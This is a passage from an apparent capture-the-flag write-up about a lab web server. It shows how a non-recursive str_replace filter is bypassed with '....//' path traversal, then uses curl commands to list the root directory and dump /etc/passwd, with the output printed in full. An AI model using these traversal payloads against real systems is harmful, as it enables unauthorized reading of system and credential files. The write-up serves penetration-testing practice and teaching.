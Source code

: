 Fortunately for me, that style filter can be bypassed by including a
string that, after the `str_replace`, will result in what I want.
`str_replace` is not recursive. It only makes one pass over the string.
So, `str_replace( array("../", "..\""), "", "....//") == "../"`.

To test, I'll get a directory listing of `/` and grab `/etc/passwd`:



    root@kali# curl -s -X POST -d "path=....//....//....//" http://10.10.10.87/dirRead.php | jq -rc .
    [".","..",".dockerenv","bin","dev","etc","home","lib","media","mnt","proc","root","run","sbin","srv","sys","tmp","usr","var"]

    root@kali# curl -s -X POST -d "file=....//....//....//etc/passwd" http://10.10.10.87/fileRead.php | jq -r .file
    root:x:0:0:root:/root:/bin/ash
    bin:x:1:1:bin:/bin:/sbin/nologin
    daemon:x:2:2:daemon:/sbin:/sbin/nologin
    adm:x:3:4:adm:/var/adm:/sbin/nologin
    lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
    sync:x:5:0:sync:/sbin:/bin/sync
    shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
    halt:x:7:0:halt:/sbin:/sbin/halt
    mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
    news:x:9:13:news:/usr/lib/news:/sbin/nologin
    uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
    operator:x:11:0:operator:/root:/bin/sh
    man:x:13:15:man:/usr/man:/sbin/nologin
    postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
    cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
    ftp:x:21:21::/var/lib/ftp:/sbin/nologin
    sshd:x:22:22:sshd:/dev/null:/sbin/nologin
    at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
    squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
    xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
    games:x:35:35:games:/usr/games:/sbin/nologin
    postgres:x:70:70::/var/lib/postgresql:/bin/sh
    cyrus:x:85:12::/usr/cyrus:/sbin/nologin
    vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
    ntp:x:123:123:NTP:/var/empty:/sbin/nologin
    smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
    guest:x:405:100:guest:/dev/null:/sbin/nologin
    nobody:x:65534:65534:nobody:/home/nobody:/bin/sh
    nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin



#### Interesting Files

In enumerating the box with dir list and file read, I'll find a few
interesting things.

-   Right away we see `.dockerenv` in the root. Looking around further,
    the box is sparse, so I am likely in a container.

-   There's one user on the box, nobody. There's a `user.txt` in the
    nobody home directory, but as mentioned above, I can't read it. I'll
    need to get shell access.
